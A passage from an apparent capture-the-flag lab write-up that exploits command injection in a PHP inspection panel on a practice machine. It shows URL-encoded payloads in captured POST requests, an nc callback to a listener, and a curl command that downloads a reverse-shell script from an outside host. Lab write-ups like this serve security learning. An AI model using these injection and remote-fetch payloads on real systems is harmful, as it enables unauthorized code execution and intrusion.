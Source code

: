 ![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_13.png)

We can test it by capturing the request in burp suite and making a `nc` connection, to point it out, the `staff-review-panel.mailroom.htb` is running inside the docker and it was unable to make connection to my kali machine, so I used the SSH connection to connect to the `mailroom.htb` machine and used it for gaining reverse shell and testing connection:

```jsx
POST /inspect.php HTTP/1.1
Host: staff-review-panel.mailroom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://staff-review-panel.mailroom.htb
Connection: close
Referer: http://staff-review-panel.mailroom.htb/inspect.php
Cookie: PHPSESSID=b650e6ee5cb719dd1287420443922d58
Upgrade-Insecure-Requests: 1

inquiry_id=%60nc%2010%2E10%2E11%2E209%204444%60
```

It wasn’t connecting back to my kali machine but successfully making connection the mailroom machine itself, could be because of docker instance running on the machine it is unable to make any outbound connection beside the host machine itself

```jsx
tristan@mailroom:~$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.19.0.5 52694
```

Now, since there are many filtered characters, what I did was downloading the bash script containing the reverse shell payload to the `staff-review-panel.mailroom.htb` docker 

```jsx
`; curl http://10.10.11.209:4444/shell.sh -o /tmp/shell.sh`
```

```jsx
POST /inspect.php HTTP/1.1
Host: staff-review-panel.mailroom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://staff-review-panel.mailroom.htb
Connection: close
Referer: http://staff-review-panel.mailroom.htb/inspect.php
Cookie: PHPSESSID=b650e6ee5cb719dd1287420443922d58
Upgrade-Insecure-Requests: 1

status_id=%60%3B%20curl%20http%3A%2F%2F10%2E10%2E11%2E209%3A4444%2Fshell%2Esh%20%2Do%20%2Ftmp%2Fshell%2Esh%60
```
